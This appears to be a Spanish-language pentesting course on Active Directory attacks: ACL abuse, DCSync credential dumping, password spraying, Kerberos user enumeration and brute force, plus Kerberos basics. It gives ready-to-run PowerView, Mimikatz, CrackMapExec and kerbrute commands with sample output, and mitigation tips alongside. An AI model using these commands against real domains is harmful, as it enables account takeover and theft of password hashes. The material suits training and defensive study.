## **301. Explotación de ACLs vulnerables**

### 🧠 ¿Qué es la explotación de ACLs vulnerables?

En Active Directory, los objetos (usuarios, grupos, equipos, OUs, GPOs) tienen **listas de control de acceso** llamadas **ACLs**. Estas contienen entradas llamadas **ACEs**, que determinan **qué usuarios tienen qué permisos** sobre esos objetos.

> Si un usuario no privilegiado tiene permisos indebidos (por ejemplo: `GenericAll`, `WriteDACL`, `WriteOwner`, `ResetPassword`), puede **explotar esa vulnerabilidad** para **elevar privilegios**, **moverse lateralmente** o **mantener persistencia**.

---

### 🧨 ¿Qué tipo de permisos pueden explotarse?

| Permiso ACE     | ¿Qué permite hacer?                       | Posible explotación                    |
| --------------- | ----------------------------------------- | -------------------------------------- |
| `GenericAll`    | Control total sobre el objeto             | Secuestro del objeto                   |
| `WriteDACL`     | Modificar la ACL del objeto               | Agregar permisos para sí mismo         |
| `WriteOwner`    | Cambiar el dueño del objeto               | Tomar control completo                 |
| `GenericWrite`  | Modificar atributos del objeto            | Inyectar comandos o cambiar membresías |
| `ResetPassword` | Cambiar la contraseña sin saber la actual | Secuestrar cuenta de usuario           |

---

### 🛠️ Herramientas necesarias

| Herramienta              | Función                                  | Sistema       |
| ------------------------ | ---------------------------------------- | ------------- |
| PowerView                | Enumeración de ACLs                      | Windows       |
| PowerSploit              | Explotación                              | Windows       |
| BloodHound               | Visualización y planificación del ataque | Windows/Linux |
| Mimikatz                 | Post-explotación                         | Windows       |
| net.exe / runas / Rubeus | Persistencia y movimiento lateral        | Windows       |

---

### 🔧 Instalación rápida de herramientas

#### ✅ PowerView

```powershell
# Descargar
git clone https://github.com/PowerShellMafia/PowerSploit.git

# Importar el módulo
Import-Module .\PowerSploit\Recon\PowerView.ps1
```

---

#### ✅ BloodHound + SharpHound

1. Descargar BloodHound:
   [https://github.com/BloodHoundAD/BloodHound/releases](https://github.com/BloodHoundAD/BloodHound/releases)

2. Ejecutar SharpHound en la máquina víctima:

```powershell
.\SharpHound.exe -c All
```

3. Cargar resultados en BloodHound GUI.

---

### ⚔️ Escenarios comunes de explotación

---

#### 🔹 1. Explotar `ResetPassword` o `ForceChangePassword`

Permite **cambiar la contraseña de un usuario sin conocer la anterior**.

**Comando en PowerView**:

```powershell
Set-DomainUserPassword -Identity "Administrador" -AccountPassword (ConvertTo-SecureString "NuevaClave123" -AsPlainText -Force)
```

---

#### 🔹 2. Explotar `WriteOwner`

Permite **asignarte como dueño de un objeto**, luego puedes cambiar sus ACLs.

```powershell
Set-DomainObjectOwner -TargetIdentity "adminTI" -PrincipalIdentity "soporte01"
Add-DomainObjectAcl -TargetIdentity "adminTI" -PrincipalIdentity "soporte01" -Rights All
```

Después, puedes cambiarle la contraseña, agregarlo a grupos, etc.

---

#### 🔹 3. Explotar `WriteDACL`

Permite **editar las ACLs del objeto**. Puedes agregarte como controlador total (`GenericAll`), y luego abusar de eso.

```powershell
Add-DomainObjectAcl -TargetIdentity "adminTI" -PrincipalIdentity "soporte01" -Rights All
```

---

#### 🔹 4. Explotar `GenericWrite`

Permite modificar ciertos atributos, por ejemplo:

- Cambiar el `scriptPath` (para ejecutar un payload en logon)
- Agregar al grupo de administradores (`memberOf`)
- Cambiar `ServicePrincipalName` para usar ataque de Kerberoasting

---

### ✅ EJEMPLO COMPLETO: Explotación de WriteDACL

#### 🏁 Escenario

Tienes acceso como el usuario **soporte01** en el dominio.
Detectas que tiene `WriteDACL` sobre el usuario **adminTI**.

---

#### 🔸 PASO 1: Enumerar permisos con PowerView

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -SamAccountName "adminTI" -ResolveGUIDs
```

Miras que `soporte01` tiene `WriteDACL`.

---

#### 🔸 PASO 2: Asignar permiso de `GenericAll` a ti mismo

```powershell
Add-DomainObjectAcl -TargetIdentity "adminTI" -PrincipalIdentity "soporte01" -Rights All
```

---

#### 🔸 PASO 3: Cambiar la contraseña de adminTI

```powershell
Set-DomainUserPassword -Identity "adminTI" -AccountPassword (ConvertTo-SecureString "NuevaClaveAdmin123!" -AsPlainText -Force)
```

---

#### 🔸 PASO 4: Iniciar sesión como adminTI

```cmd
runas /user:DOMINIO\adminTI cmd
```

💥 ¡Ya tienes privilegios más altos!

---

### 🔐 ¿Cómo prevenir esto?

- Auditar regularmente los permisos en AD.
- No dar `WriteDACL`, `GenericAll`, `ResetPassword` a usuarios comunes.
- Usar BloodHound o ACL Scanner cada mes.
- Activar **Advanced Auditing** en AD.

---

[🔼](#índice)

---

## **302. Explotación DCSync**

### 🧠 ¿Qué es el ataque DCSync?

El ataque **DCSync** permite que un atacante **finja ser un controlador de dominio (DC)** y **solicite a otro DC que le sincronice datos sensibles**, como:

- Hashes NTLM de contraseñas de usuarios.
- Información del administrador del dominio.
- Tickets Kerberos.

> Esto es posible si el atacante tiene permisos para replicar datos del dominio.
>
> DCSync NO explota una vulnerabilidad: **abusa de permisos mal configurados en Active Directory**.

---

### 🔍 ¿Qué se necesita para hacer un DCSync?

El usuario atacante debe tener al menos uno de estos permisos en el dominio:

- `Replicating Directory Changes`
- `Replicating Directory Changes All`
- `Replicating Directory Changes In Filtered Set`

🔐 Por defecto, **sólo los DCs y miembros del grupo `Administrators`, `Domain Admins` o `Enterprise Admins` tienen estos permisos.**
Pero si otro usuario o grupo tiene esos permisos… 🎯 se puede explotar.

---

### 🧰 Herramientas necesarias

| Herramienta               | Descripción                         | Sistema       |
| ------------------------- | ----------------------------------- | ------------- |
| Mimikatz                  | Permite ejecutar el ataque DCSync   | Windows       |
| PowerView                 | Enumeración de permisos en AD       | Windows       |
| BloodHound                | Identifica relaciones y privilegios | Windows/Linux |
| Impacket (secretsdump.py) | Alternativa desde Linux             | Linux         |

---

### ⚙️ Instalación de herramientas

#### ✅ Mimikatz en Windows

1. Descargar desde el repo oficial:
   [https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)

2. Ejecutar en una consola **elevada** (Administrador).

```cmd
cd C:\Users\TuUsuario\Descargas\mimikatz\x64
mimikatz.exe
```

---

#### ✅ Impacket (opcional, en Kali Linux o Parrot)

```bash
sudo apt install impacket-scripts -y
```

---

### 🚨 Ejemplo: DCSync con Mimikatz

#### 🧪 Escenario

- Usuario atacante: `soporte01`
- Este usuario tiene permisos de replicación sobre el dominio (por ejemplo, porque es miembro de un grupo mal configurado).
- Dominio: `empresa.local`

---

#### 🔎 PASO 1: Verificar permisos con PowerView

```powershell
Import-Module .\PowerView.ps1
Get-DomainObjectAcl -Identity "DC=empresa,DC=local" -ResolveGUIDs | ? { $_.IdentityReference -like "*soporte01*" }
```

Si ves permisos como:

- `Replicating Directory Changes`
- `Replicating Directory Changes All`

🎯 ¡puedes hacer DCSync!

---

#### 🧨 PASO 2: Ejecutar ataque con Mimikatz

Abres mimikatz como administrador:

```cmd
mimikatz # lsadump::dcsync /domain:empresa.local /user:Administrador
```

📦 Resultado:

Obtendrás algo como:

```
Hash NTLM: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

Este es el **hash de la contraseña del Administrador**.

---

#### 🔐 PASO 3 (Opcional): Iniciar sesión con el hash

Con herramientas como **Pass-the-Hash** (psexec, Rubeus, crackmapexec), puedes conectarte a otras máquinas del dominio usando ese hash, sin conocer la contraseña.

---

### 🧩 Alternativa: Usar Impacket (Linux)

Desde Kali Linux:

```bash
secretsdump.py EMPRESA.LOCAL/soporte01:'Contraseña123'@dc.empresa.local
```

---

### 💣 ¿Qué se puede hacer con el hash?

- **Desbloquear privilegios de dominio completo**
- Obtener acceso a recursos compartidos, controladores de dominio, etc.
- Escalada de privilegios.
- Ataques persistentes (Golden Ticket, Silver Ticket, etc.)

---

### 🛡️ ¿Cómo mitigar un ataque DCSync?

1. ✅ Solo los **controladores de dominio** deben tener permisos de replicación.
2. 🧼 Revisar ACLs del objeto `domain` con herramientas como BloodHound o PowerView.
3. 🚨 Activar **auditoría avanzada**:

   - Log 4662 (objetos con acceso específico)
   - Log 4661 (intento de lectura)

---

### 📘 Resumen

| Elemento              | Descripción                                                                               |
| --------------------- | ----------------------------------------------------------------------------------------- |
| ¿Qué es?              | Abuso de permisos de replicación en AD para obtener hashes de contraseña                  |
| Herramienta principal | Mimikatz                                                                                  |
| Requisitos            | Permisos: `Replicating Directory Changes` y similares                                     |
| Riesgo                | Crítico (puede derivar en dominio completo)                                               |
| Mitigación            | Auditar permisos, usar BloodHound, eliminar usuarios innecesarios de grupos privilegiados |

---

[🔼](#índice)

---

## **303. Password Spraying**

### 🔐 ¿Qué es Password Spraying?

**Password Spraying** es un tipo de ataque de fuerza bruta _inteligente_ donde un atacante prueba una **contraseña común** en **muchos usuarios**, en lugar de probar muchas contraseñas para un solo usuario.

---

### ✅ ¿Por qué es efectivo?

- Evita bloqueos de cuenta (account lockout).
- Se basa en que **muchas organizaciones usan contraseñas débiles** como `Verano2024`, `123456`, `Password1`, etc.
- Prueba **pocas contraseñas** en muchos usuarios → reduce sospecha.

---

### 🧠 Ejemplo conceptual

Supón que tienes estos usuarios en tu empresa:

- juan.perez
- ana.lopez
- carlos.rios
- maria.soto

Y el atacante prueba una sola contraseña común:

```
Contraseña probada: Invierno2024
```

Ese atacante ejecuta:

```
juan.perez : Invierno2024
ana.lopez  : Invierno2024
carlos.rios: Invierno2024
maria.soto : Invierno2024
```

🎯 Si alguien la está usando, el atacante consigue acceso.

---

### 🛠️ Herramientas para Password Spraying

| Herramienta      | Sistema              | Descripción                                |
| ---------------- | -------------------- | ------------------------------------------ |
| **CrackMapExec** | Linux                | Herramienta versátil para AD y spraying    |
| **Kerbrute**     | Go / Linux / Windows | Spraying contra Kerberos                   |
| **Hydra**        | Linux/Windows        | Genérica para muchos protocolos            |
| **Burp Suite**   | Windows/Linux        | Spraying contra aplicaciones web           |
| **Spray365**     | Python               | Especializado en servicios como OWA o ADFS |

---

### ⚙️ Instalación de herramientas (Linux)

#### 🔹 CrackMapExec (CME)

```bash
sudo apt update
sudo apt install crackmapexec -y
```

> Requiere Python 3 y samba-common-bin

---

#### 🔹 Kerbrute

```bash
git clone https://github.com/ropnop/kerbrute
cd kerbrute
go build -o kerbrute
```

> Necesitas Go instalado.

---

### 🧪 Escenario práctico

#### 🔍 Supuestos:

- Dominio: `empresa.local`
- IP del DC: `192.168.1.10`
- Lista de usuarios: `usuarios.txt`
- Contraseña común: `Verano2024`

---

### ✅ Ejemplo con CrackMapExec

#### Paso 1: Crear archivo `usuarios.txt`

```bash
juan.perez
ana.lopez
carlos.rios
maria.soto
```

#### Paso 2: Ejecutar el spraying

```bash
crackmapexec smb 192.168.1.10 -u usuarios.txt -p Verano2024 --no-bruteforce
```

> `--no-bruteforce` asegura que **sólo se pruebe una contraseña por usuario.**

📌 Salida esperada:

```
[+] empresa.local\juan.perez:Verano2024 => Credenciales válidas!
[-] empresa.local\ana.lopez:Verano2024 => Fallido
```

🎯 El atacante ya tiene una cuenta válida.

---

### ✅ Ejemplo con Kerbrute (contra Kerberos)

```bash
./kerbrute passwordspray -d empresa.local --dc 192.168.1.10 usuarios.txt Verano2024
```

---

### 🛡️ ¿Cómo protegerse del Password Spraying?

#### ✔️ Buenas prácticas:

1. **Política de contraseñas fuertes**: Evitar contraseñas predecibles o estacionales.
2. **Bloqueo de cuentas progresivo**: Bloquear tras varios intentos fallidos.
3. **MFA (Autenticación multifactor)**: Incluso si roban una contraseña, no accederán.
4. **Auditoría**: Monitorear eventos de inicio de sesión fallidos (event ID 4625).
5. **Alertas por volumen**: Si un usuario recibe muchos intentos en poco tiempo.
6. **Segmentación de servicios expuestos**: No exponer RDP, OWA, VPN sin medidas adicionales.

---

### 🧩 Caso de uso real (ejemplo completo)

**Objetivo:** El atacante quiere acceder a un entorno Windows con muchos usuarios y prueba si alguien usa `Empresa2024`.

#### Archivos:

- `usuarios.txt` con 100 usuarios comunes.
- `contraseñas.txt` con 3 claves:

  - Empresa2024
  - Bienvenido1
  - Invierno2024

#### Comando:

```bash
crackmapexec smb 192.168.1.10 -u usuarios.txt -p contraseñas.txt --no-bruteforce
```

🎯 Si alguna combina con un usuario, el atacante obtiene acceso.

---

[🔼](#índice)

---

## **304. Funcionamiento de Kerberos**



### 🔐 ¿Qué es Kerberos?

**Kerberos** es un protocolo de autenticación de red que permite a los usuarios y servicios en una red verificar su identidad de forma **segura y sin enviar contraseñas en texto claro**.

📌 **Es usado por defecto en entornos Active Directory (AD)** desde Windows 2000.

---

### 🧠 ¿Cómo funciona Kerberos? (Paso a paso fácil)

Usa **criptografía simétrica y tickets** para autenticar usuarios en una red.

#### 🎯 Escenario fácil de entender

Imagina que tú (usuario Juan) quieres acceder a una impresora de red. Necesitas demostrar quién eres, pero no quieres enviar tu contraseña.

Entonces, Kerberos usa tres componentes principales:

| Componente         | Función                                        |
| ------------------ | ---------------------------------------------- |
| **Cliente (Juan)** | Quiere autenticarse                            |
| **KDC**            | Servidor de autenticación (Domain Controller)  |
| **Servicio**       | Como una impresora, servidor de archivos, etc. |

---

### 🔐 Los 3 pasos de Kerberos

---

#### ✅ Paso 1: Autenticación inicial (AS-REQ / AS-REP)

📥 Cliente → KDC: “Hola, soy [juan@empresa.local](mailto:juan@empresa.local)”

📤 KDC → Cliente: Le envía dos cosas:

1. **TGT (Ticket Granting Ticket)**: Un ticket cifrado válido por unas horas.
2. **Session Key**: Clave de sesión para comunicarse con el TGS.

🔒 **Nota:** El TGT está cifrado con la clave secreta del KDC, así que solo el KDC puede leerlo.

---

#### ✅ Paso 2: Solicitud de acceso a un servicio (TGS-REQ / TGS-REP)

📥 Cliente → KDC: “Hola, tengo este TGT y quiero acceder al servidor de archivos”

📤 KDC → Cliente:

- Le da un **Service Ticket** para ese servicio.
- También le manda una nueva **Session Key** para hablar con ese servicio.

---

#### ✅ Paso 3: Acceso al servicio (AP-REQ / AP-REP)

📥 Cliente → Servicio: “Hola, aquí está mi Service Ticket y un mensaje cifrado con mi Session Key”

📤 Servicio → Cliente: “¡Perfecto! Bienvenido, [juan@empresa.local](mailto:juan@empresa.local)”

---

🎉 ¡Listo! Ya estás autenticado sin haber enviado tu contraseña ni una sola vez por la red.

---

### 🧩 Ejemplo paso a paso

**Supuesto:**

- Usuario: `juan@empresa.local`
- Servicio: `fileserver.empresa.local`
- KDC: `DC1.empresa.local`

#### 🔄 Flujo:

1. Juan inicia sesión en su PC → se genera una solicitud AS-REQ.
2. El KDC le da un TGT (AS-REP).
3. Juan quiere abrir la carpeta compartida del fileserver → solicita ticket de servicio (TGS-REQ).
4. El KDC le da el ticket para ese servicio (TGS-REP).
5. Juan lo usa para autenticarse con el fileserver (AP-REQ).
6. El fileserver lo deja pasar (AP-REP).

---

### 🛠️ ¿Cómo practicar Kerberos? (Laboratorio)

#### 🧪 Laboratorio básico:

##### Requisitos:

- 1 Windows Server con AD instalado (controlador de dominio)
- 1 máquina con Windows 10 unida al dominio
- 1 máquina atacante (Kali Linux, por ejemplo)

---

#### 🎯 Instalación de entorno (resumen)

##### 1. Instalar Windows Server y promoverlo como DC

→ Con el rol de Active Directory y DNS

##### 2. Crear usuario: `juan@empresa.local`

→ En Usuarios y Equipos de AD

##### 3. Configurar Windows 10 y unirlo al dominio

→ `empresa.local`

---

### 📡 Herramientas útiles para Kerberos

| Herramienta       | Función                                                    |
| ----------------- | ---------------------------------------------------------- |
| `klist` (Windows) | Muestra los tickets Kerberos actuales                      |
| `kinit` (Linux)   | Solicita un TGT manualmente                                |
| `Impacket`        | Librería para simular autenticaciones Kerberos             |
| `Rubeus`          | Herramienta ofensiva para interactuar con tickets Kerberos |

---

### 📌 Ejemplo real usando `klist`

Desde una máquina Windows unida al dominio:

```cmd
klist
```

🔍 Verás algo como:

```
Default Logon Domain: EMPRESA
Cached Tickets: (2)

#0> Client: juan @ EMPRESA.LOCAL
     Server: krbtgt/EMPRESA.LOCAL @ EMPRESA.LOCAL
     Start Time: 7/18/2025 10:02:00
     End Time:   7/18/2025 20:02:00
     Renew Time: 7/25/2025 10:02:00
```

✅ Esto indica que **Juan tiene un TGT válido**.

---

### 🚨 Seguridad y ataques comunes en Kerberos

| Ataque              | Descripción breve                                  |
| ------------------- | -------------------------------------------------- |
| **Kerberoasting**   | Extraer tickets de servicio y crackear contraseñas |
| **AS-REP Roasting** | Solicitar tickets sin preautenticación             |
| **Pass-the-Ticket** | Reutilizar tickets robados                         |
| **Golden Ticket**   | Crear TGT falsos como si fueras el KDC             |

¿Quieres que te enseñe cada uno de estos ataques también?

---

### ✅ Resumen

| Concepto          | Descripción breve                                          |
| ----------------- | ---------------------------------------------------------- |
| Kerberos          | Protocolo de autenticación seguro basado en tickets        |
| TGT               | Ticket para solicitar otros tickets (como un pase general) |
| TGS               | Ticket para acceder a un servicio específico               |
| klist             | Comando para ver tickets activos                           |
| Impacket / Rubeus | Herramientas para interactuar o atacar Kerberos            |

---

[🔼](#índice)

---

## **305. Kerberos en Active Directory**

### 🧠 1. ¿Qué es Kerberos?

**Kerberos** es un protocolo de autenticación **seguro y rápido**, basado en **tickets**. Permite a usuarios y servicios en una red verificar su identidad **sin enviar contraseñas** por la red.

> ⚠️ En un entorno con Active Directory, **Kerberos es el protocolo principal de autenticación.**

---

### 🏢 2. ¿Cómo usa Active Directory el protocolo Kerberos?

Cuando un usuario de dominio inicia sesión o accede a recursos (como una carpeta compartida), el **Controlador de Dominio (DC)** actúa como **KDC (Key Distribution Center)** y gestiona toda la autenticación con Kerberos.

#### 🔑 Componentes Clave

| Componente         | Descripción                                                      |
| ------------------ | ---------------------------------------------------------------- |
| **Cliente**        | El usuario o equipo que se autentica                             |
| **KDC**            | El servidor que entrega tickets (en AD, es el Domain Controller) |
| **TGT**            | Ticket de concesión de tickets (permite pedir otros tickets)     |
| **Service Ticket** | Ticket para acceder a un recurso específico                      |

---

### 🔄 3. ¿Cómo funciona Kerberos en AD? (Flujo con ejemplo)

#### 🎯 Escenario

- Usuario: `gustavo@empresa.local`
- Quiere acceder a: `\\fileserver\proyectos`

#### 🔁 Flujo en 3 pasos

1. **Inicio de sesión (AS-REQ / AS-REP):**

   - Gustavo inicia sesión → el cliente solicita un **TGT** al DC.
   - El DC verifica su contraseña (hash) y entrega un **TGT cifrado**.

2. **Solicitar acceso al servicio (TGS-REQ / TGS-REP):**

   - El cliente usa el TGT para pedir un **Service Ticket** para `fileserver`.

3. **Acceder al recurso (AP-REQ / AP-REP):**

   - El cliente usa el Service Ticket para autenticarse ante el servidor de archivos.
   - El servidor verifica el ticket y permite el acceso.

> ✅ **Todo ocurre automáticamente en segundos y de forma segura**.

---

### 🛠️ 4. Instalación y configuración de Kerberos en un entorno Active Directory

#### ✅ Requisitos

| Máquina        | Rol                          |
| -------------- | ---------------------------- |
| Windows Server | Controlador de Dominio (KDC) |
| Windows 10     | Cliente unido al dominio     |

---

#### 🧪 Paso 1: Configurar el Controlador de Dominio (DC)

1. Instala Windows Server 2019+
2. Configura IP fija, cambia el nombre del equipo (ej. `DC1`)
3. Instala el rol de **Active Directory Domain Services**

```powershell
Install-WindowsFeature AD-Domain-Services -IncludeManagementTools
```

4. Promueve el servidor a Controlador de Dominio

```powershell
Install-ADDSForest -DomainName "empresa.local"
```

Esto configura automáticamente:

✅ Dominio

✅ DNS

✅ KDC (para Kerberos)

---

#### 🧪 Paso 2: Crear usuario en Active Directory

En el **Administrador de Usuarios y Equipos de Active Directory (dsa.msc):**

1. Crea una Unidad Organizativa (OU) llamada `Usuarios`
2. Crea un nuevo usuario:

   - Nombre: Gustavo
   - Usuario: `gustavo@empresa.local`
   - Contraseña: segura

---

#### 🧪 Paso 3: Unir una máquina Windows 10 al dominio

1. Cambia el nombre del equipo (ej. `CLIENTE01`)

2. Configura el DNS con la IP del DC

3. Ve a:
   `Sistema > Configuración avanzada > Nombre del equipo > Cambiar`

   ➜ Selecciona **Dominio**: `empresa.local`
   ➜ Ingresa credenciales de administrador del dominio

4. Reinicia la máquina

---

#### 🧪 Paso 4: Iniciar sesión como usuario de dominio

- En la PC con Windows 10, haz clic en “Otro usuario”
- Ingresa:

  - Usuario: `empresa\gustavo`
  - Contraseña

💡 Al iniciar sesión, se genera el primer ticket Kerberos (TGT).

---

#### 📋 Paso 5: Ver tickets Kerberos con `klist`

Abre PowerShell en el equipo cliente:

```bash
klist
```

📌 Resultado:

```bash
Default Logon Domain: EMPRESA
Cached Tickets: (2)

#0> Client: gustavo @ EMPRESA.LOCAL
    Server: krbtgt/EMPRESA.LOCAL @ EMPRESA.LOCAL
    Start Time: 7/18/2025 12:00:00
    End Time:   7/18/2025 22:00:00
```

🎉 ¡Gustavo está autenticado vía Kerberos!

---

### 🧩 ¿Qué se puede proteger o atacar con Kerberos?

Kerberos es robusto, pero mal configurado puede permitir ataques como:

| Ataque          | Descripción breve                                  |
| --------------- | -------------------------------------------------- |
| Kerberoasting   | Robar y crackear tickets de servicios SPN          |
| AS-REP Roasting | Atacar usuarios que no requieren pre-autenticación |
| Pass-the-Ticket | Usar tickets robados en otro sistema               |
| Golden Ticket   | Crear tickets falsos si se compromete el KDC       |

> Si te interesa, puedo explicarte cómo hacer un **Kerberoasting en laboratorio** con `Impacket` o `Rubeus`.

---

### ✅ Resumen Final

| Concepto                  | Descripción                                                      |
| ------------------------- | ---------------------------------------------------------------- |
| **Kerberos**              | Protocolo de autenticación con tickets usado en Active Directory |
| **Active Directory**      | Lo implementa como parte del Controlador de Dominio (KDC)        |
| **TGT y Service Tickets** | Tickets que permiten acceder a recursos sin reenviar contraseña  |
| **klist**                 | Comando para ver tickets activos en Windows                      |
| **Instalación**           | AD DS instala automáticamente Kerberos al configurar el dominio  |

---

[🔼](#índice)

---

## **306. Enumeración de usuarios con Kerberos**

### 🧠 ¿Qué es la enumeración de usuarios con Kerberos?

La **enumeración de usuarios con Kerberos** es una técnica que permite a un atacante averiguar qué **usuarios existen** en un dominio Active Directory **sin necesidad de tener credenciales válidas**.

Esto se hace aprovechando ciertas respuestas del **KDC (Key Distribution Center)** al realizar peticiones de Kerberos. Si el usuario existe, el KDC **responde diferente** que si el usuario no existe.

---

### 🔍 ¿Por qué es útil para un atacante?

Con esta técnica, un atacante puede:

- Confirmar nombres de usuarios activos en el dominio.
- Usar los usuarios válidos para ataques como:

  - **Password spraying**
  - **Kerberoasting**
  - **AS-REP Roasting**
  - **Fuerza bruta de contraseñas**

---

### 🧱 ¿Cómo funciona a nivel técnico?

Cuando se hace una petición Kerberos (AS-REQ), el KDC devuelve:

| Situación                               | Respuesta del KDC                 |
| --------------------------------------- | --------------------------------- |
| Usuario **no existe**                   | `KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN` |
| Usuario **existe** pero no hay pre-auth | `KRB5KDC_ERR_PREAUTH_REQUIRED`    |

⚠️ Esta diferencia en los errores permite **confirmar si un usuario existe**.

---

### 🧰 Herramientas para enumerar usuarios con Kerberos

| Herramienta                | Lenguaje | Plataforma | Descripción breve                         |
| -------------------------- | -------- | ---------- | ----------------------------------------- |
| `kerbrute`                 | Go       | Linux/Win  | Rápido, multithread, muy común en pruebas |
| `GetNPUsers.py` (Impacket) | Python   | Linux      | También usado para AS-REP Roasting        |
| `Rubeus`                   | C#       | Windows    | Más ofensivo, se usa post-explotación     |

---

### 🛠️ Instalación y uso con ejemplos

#### 🔧 A. Instalar y usar `kerbrute` (recomendado)

##### ✅ Paso 1: Clonar e instalar

```bash
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute
go build
```

O descarga el binario de: [https://github.com/ropnop/kerbrute/releases](https://github.com/ropnop/kerbrute/releases)

##### ✅ Paso 2: Enumerar usuarios

Supongamos que tienes una lista `users.txt`:

```txt
gustavo
admin
soporte
jefe.ti
pepe
```

Y el dominio objetivo es `empresa.local` con IP `10.0.0.1`.

Ejecuta:

```bash
./kerbrute userenum --dc 10.0.0.1 -d empresa.local users.txt
```

📌 Salida:

```bash
[+] VALID USERNAME: gustavo@empresa.local
[+] VALID USERNAME: soporte@empresa.local
[-] INVALID USERNAME: pepe@empresa.local
```

💥 ¡Ahora ya sabes qué usuarios existen!

---

#### 🔧 B. Enumerar con `GetNPUsers.py` (Impacket)

Instala impacket (si usas Kali o Parrot, ya viene instalado):

```bash
sudo apt install python3-impacket
```

Ejecuta:

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py empresa.local/ -no-pass -usersfile users.txt -dc-ip 10.0.0.1
```

Este comando además **intenta obtener hashes AS-REP** si el usuario no requiere preautenticación.

---

### ⚙️ ¿Qué necesita el atacante?

| Requisito                                          | ¿Necesario?          |
| -------------------------------------------------- | -------------------- |
| Estar en la red interna                            | ✅                   |
| Tener usuario válido                               | ❌ (no es necesario) |
| Tener conectividad con el puerto 88/TCP (Kerberos) | ✅                   |

---

### 🧪 Ejemplo completo de laboratorio

#### 🏗️ Entorno

- Windows Server 2019 con dominio `empresa.local`, IP: `10.0.0.1`
- Usuarios en AD:

  - `gustavo`
  - `admin`
  - `pepe` (no existe)

- Kali Linux atacante

#### 🧾 Pasos

1. Crear `users.txt` en Kali:

```bash
echo -e "gustavo\nadmin\npepe" > users.txt
```

2. Ejecutar `kerbrute`:

```bash
./kerbrute userenum --dc 10.0.0.1 -d empresa.local users.txt
```

3. Resultado:

```
[+] VALID USERNAME: gustavo@empresa.local
[+] VALID USERNAME: admin@empresa.local
[-] INVALID USERNAME: pepe@empresa.local
```

---

### 🔐 ¿Cómo mitigar esta técnica?

Administradores de red pueden:

- Forzar preautenticación para todos los usuarios.
- Configurar **Auditoría de eventos de Kerberos** (event ID 4768, 4771).
- Usar nombres de usuario no predecibles.
- Configurar herramientas de detección de comportamiento (EDR).

---

### ✅ RESUMEN

| Punto                 | Descripción                                                  |
| --------------------- | ------------------------------------------------------------ |
| ¿Qué es?              | Técnica para confirmar usuarios válidos con Kerberos         |
| ¿Qué se necesita?     | Acceso a la red y al puerto 88 del DC                        |
| ¿Herramientas clave?  | `kerbrute`, `GetNPUsers.py`, `Rubeus`                        |
| ¿Qué devuelve el KDC? | Diferencia de errores según si el usuario existe o no        |
| ¿Para qué sirve?      | Planificar ataques como spraying, Kerberoasting o bruteforce |

---

[🔼](#índice)

---

## **307. Fuerza bruta con Kerberos**

### 🧠 ¿Qué es la fuerza bruta con Kerberos?

La **fuerza bruta con Kerberos** es una técnica donde se prueban muchas contraseñas contra un usuario específico del dominio, usando el **protocolo Kerberos** (puerto 88/TCP), **sin necesidad de iniciar sesión primero**.

Se utiliza cuando ya se tiene un **nombre de usuario válido** dentro del dominio (obtenido, por ejemplo, con `kerbrute`) y se intenta adivinar su contraseña usando diccionarios.

---

### 🎯 ¿Por qué se puede hacer este ataque?

Porque el protocolo Kerberos permite que un usuario solicite un **Ticket Granting Ticket (TGT)**, y si el usuario y la contraseña coinciden, el servidor (KDC) responde con un ticket válido.

Si la contraseña es incorrecta, el servidor responde con un error, lo que permite hacer miles de intentos y notar cuál fue exitoso.

---

### ⚠️ Ventajas para un atacante

- No requiere tener una cuenta válida o iniciada.
- Solo necesita conocer **el nombre de usuario**.
- No requiere interacción con servicios como SMB o RDP.
- Evade algunos sistemas de detección tradicionales (si no hay límites de intentos).

---

### 🧰 Herramientas para fuerza bruta Kerberos

| Herramienta | Sistema | Descripción                                                           |
| ----------- | ------- | --------------------------------------------------------------------- |
| `kerbrute`  | Linux   | Muy rápido, multithread, excelente para spraying y bruteforce         |
| `hydra`     | Linux   | Herramienta tradicional de fuerza bruta (puede trabajar con Kerberos) |
| `Rubeus`    | Windows | Muy útil en post-explotación                                          |

---

### 🛠️ Instalación y uso de `kerbrute` (más recomendado)

#### ✅ Paso 1: Instalar `kerbrute`

Si usas Kali o Parrot, probablemente ya lo tengas. Si no:

```bash
git clone https://github.com/ropnop/kerbrute
cd kerbrute
go build
```

> También puedes descargar binarios precompilados:
>
> [https://github.com/ropnop/kerbrute/releases](https://github.com/ropnop/kerbrute/releases)

---

#### ✅ Paso 2: Crear diccionario de contraseñas

Ejemplo `pass.txt`:

```txt
123456
empresa2024
Admin123!
pepe123
gustavo2025
```

---

#### ✅ Paso 3: Fuerza bruta con kerbrute

Supón que el dominio es `empresa.local`, IP del DC `10.0.0.1`, y el usuario es `gustavo`.

```bash
./kerbrute bruteuser -d empresa.local --dc 10.0.0.1 pass.txt gustavo
```

📌 Salida de ejemplo:

```bash
[+] SUCCESS: gustavo@empresa.local:gustavo2025
[-] FAILURE: gustavo@empresa.local:123456
[-] FAILURE: gustavo@empresa.local:Admin123!
```

💥 ¡Contraseña encontrada!

---

### 🧪 Ejemplo completo de laboratorio

#### 🔧 Escenario:

- DC: Windows Server con dominio `empresa.local` – IP `192.168.1.10`
- Usuario válido: `gustavo`
- Kali Linux como atacante

#### 📝 Paso a paso:

1. Crea el archivo `pass.txt`:

```bash
echo -e "123456\nadmin123\ngustavo2025" > pass.txt
```

2. Ejecuta el ataque:

```bash
./kerbrute bruteuser -d empresa.local --dc 192.168.1.10 pass.txt gustavo
```

3. Resultado:

```
[+] SUCCESS: gustavo@empresa.local:gustavo2025
```

Ahora puedes usar ese usuario y contraseña para **acceder a servicios como RDP, SMB o ejecutar Kerberoasting**.

---

### 🛡️ ¿Cómo proteger un dominio de este tipo de ataque?

- **Habilitar lockout de cuenta** (política de bloqueo tras varios intentos).
- **Auditoría de eventos** (IDs 4771 y 4768).
- Usar **EDRs** que detecten muchos intentos de Kerberos.
- Nombres de usuario no predecibles.
- Contraseñas robustas (con complejidad y longitud).

---

### ✅ RESUMEN

| Concepto                            | Detalle                                       |
| ----------------------------------- | --------------------------------------------- |
| ¿Qué es?                            | Ataque para adivinar contraseñas vía Kerberos |
| ¿Requiere login?                    | ❌ No                                         |
| ¿Requiere nombre de usuario válido? | ✅ Sí                                         |
